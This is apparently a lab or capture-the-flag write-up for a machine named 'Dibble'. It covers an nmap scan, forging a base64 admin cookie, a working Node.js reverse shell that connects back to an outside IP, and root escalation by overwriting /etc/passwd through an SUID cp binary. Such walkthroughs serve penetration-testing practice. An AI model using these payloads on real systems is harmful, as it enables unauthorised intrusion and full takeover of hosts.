 # Dibble

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.110
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 12:24 +08
Nmap scan report for 192.168.157.110
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
3000/tcp  open  ppp
27017/tcp open  mongod
```

FTP accepts anonymous logins but there's nothing within it.&#x20;

### Web Enum --> Admin Takeover

Port 80 shows a blog about some web exploits:

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Port 3000 shows a more dynamic incident reporting site:

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

I registed a new account and looked at the events:

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

Doesn't look super relevant. I checked Burpsuite, and noticed this cookie:

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

When decoded, it gives `default`. I changed it to a `base64` encoded `admin` string, giving `YWRtaW4=`, which allows us to create logs.

### RCE

The new log event specified that we can write code in it:

<figure><img src="../../../.gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>

The `X-Powered-By` header specified that this was using Express, which is Javascript. Since we can directly write code, I tried putting in a Node.js reverse shell:

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("bash", []);
    var client = new net.Socket();
    client.connect(21, "192.168.45.196", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

When we submit thiss, we get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### cp SUID --> Root

`cp` is an SUID binary on this machine:

```
[benjamin@dibble ~]$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/cp
```

We can use this to overwrite files, just add this line into a copy of the current `/etc/passwd`:

```
hacker:$1$ZNhJDyK2$vksoiVz4W8rhrWm8BKxWK/:0:0::/root:/bin/bash
```

Then, use `cp` to overwrite the existing `/etc/passwd` file and `su` to `hacker` with 'hello123':

<figure><img src="../../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>
